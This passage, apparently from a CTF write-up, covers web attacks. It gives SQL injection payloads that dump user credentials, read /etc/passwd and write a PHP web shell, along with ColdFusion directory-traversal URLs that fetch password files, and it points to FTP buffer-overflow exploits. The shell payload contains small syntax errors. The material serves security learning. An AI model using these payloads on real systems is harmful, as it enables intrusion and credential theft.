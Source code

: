 In this CTF, these were  some of the  exploits that could be used:

* List everything  in a database, where **0x3a** is the hexadecimal symbol for **:**:
```sql
UNION ALL SELECT 1,concat(username,0x3a,password,0x3a,email),3 FROM cms.users--
```

* See the password file content:
```sql
UNION ALL SELECT 1,LOAD_FILE("/etc/passwd"),3--
```

* Write files and create a PHP shell into **URL/shell.php**, we can use a parameter **x** to takes a parameter to be executed (based on [this]):

```
UNION ALL SELECT 1 "<?php header("Content-Type: text/plain;charset=utf-8"); echo system($-GET["x"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php"--
```

Notice the *trailing pair of hyphens* **--** which specifies to most database servers that the remainder of the statement is to be treated as a comment and not executed (it removes the trailing single-quote left over from the modified query). To learn more about how to mitigate SQLi, I recommend [OWASP's SQLi Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
) and [this nice guide for SQLi mitigation](http://owtf.github.io/boilerplate-templates/SQLinjection.html) by OWSAP OWTF.



By the way, it's useful in general to know [HTML URL Encoding] to craft these URLs.

[this]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[HTML URL Encoding]: http://www.w3schools.com/tags/ref_urlencode.asp




### CesarFTP 0.99g and Buffer Overflow

[CesarFTP 0.99g](http://www.softpedia.com/get/Internet/Servers/FTP-Servers/Cesar-FTP.shtml) is an easy-to-use  FTP server. It is also known for having several vulnerabities, including [buffer overflow](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2961).

For example, see this exploit for **Metasploit** from [exploit-db](http://www.exploit-db.com/exploits/16713/) (or [an older one here](http://www.exploit-db.com/exploits/1906/)).



#### File Disclosure of Password Hashes

This vulnerability provides a 30 second window in the Administration panel, which can e use to write a shell code. The main idea is a [directory traversal] to the **password.proprieties** that can be used to login in the server.

Ingredients of this attack are:

* The target must have ColdFusion administrator available, which is by default mapped to ***CFIDE/administrator/enter.cfm***. If it gets [500], it should be switched to HTTPS.

* At the ColdFusion administrator, verify the version, and then use these injections:

```
(Version 6): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en

(Version 7): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en

(Version 8): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

(All versions): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en
```


[CTF write-ups git repo]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/
[DEFCAMP CTF Quals]: http://dctf.defcamp.ro/challs
[Remote File Inclusion]: http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
[TimThumb]: https://code.google.com/p/timthumb/
[CSRF]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[XSS]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
[1337day]: http://1337day.com/exploit/3256
[several vulnerabilities]: http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2008-2961
[this exploit-db]: http://www.exploit-db.com/exploits/28128/
[CMS Mini]: http://www.mini-print.com/
[several vulnerabilities]: http://www.exploit-db.com/exploits/33030/
[remote code execution]: https://www.owasp.org/index.php/PHP_Top_5#P1:_Remote_Code_Execution
[can be seen here]: http://www.exploit-db.com/exploits/33070/
[exploit-db]: http://www.exploit-db.com/exploits/33990/
[1337day]: http://en.1337day.com/exploit/22391
[packet storm]: http://packetstormsecurity.com/files/127364/Gitlist-Unauthenticated-Remote-Command-Execution.html
[hatriot]: http://hatriot.github.io/blog/2014/06/29/gitlist-rce/
[command injection]: http://cwe.mitre.org/data/definitions/77.html
[allowing remote attackers to execute arbitrary commands via shell]: http://www.websecuritywatch.com/arbitrary-command-execution-in-gitlist/
[Gitlist]: http://gitlist.org/
[here]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[unoconv]: http://linux.die.net/man/1/unoconv
[LibreOffice]: http://www.libreoffice.org/
[soffice.bin]: http://www.processlibrary.com/en/directory/files/soffice/66728/
[Railio 4.2]: http://www.getrailo.org/
[ColdFusion]: http://en.wikipedia.org/wiki/Adobe_ColdFusion
[Adobe ColdFusion 11]: http://www.adobe.com/products/coldfusion-family.html
[jumpespjump]: http://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
[kaoticcreations]: http://kaoticcreations.blogspot.com/2012/11/hacking-cold-fusion-servers-part-i.html
[cyberguerilla]: https://www.cyberguerrilla.org/blog/?p=18275
[vulnerable to a variety of attacks]: http://www.intelligentexploit.com/view-details.html?id=12750
[gnucitizen]: http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
[hexale]: http://hexale.blogspot.com/2008/07/how-to-decrypt-coldfusion-datasource.html
[infointox]: http://www.infointox.net/?p=59
[directory traversal]: https://www.owasp.org/index.php/Path_Traversal
[500]: http://en.wikipedia.org/wiki/List_of_HTTP_status_codes
[blackhatlib]: http://www.blackhatlibrary.net/Coldfusion_hacking
[paranoia.jar]: https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/
[Burp]: http://portswigger.net/burp/
[Tamper Data]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[hash-killer]: http://hash-killer.com/
[md5this]: http://www.md5this.com/
[tcpdump]: http://linux.die.net/man/8/tcpdump
[ExifTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/index.html
[Exif]: http://en.wikipedia.org/wiki/Exchangeable_image_file_format
[writeups]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/misc-100
[xxd]: http://linuxcommand.org/man_pages/xxd1.html
[Natas post]: http://bt3gl.github.io/exploiting-the-web-in-20-lessons-natas.html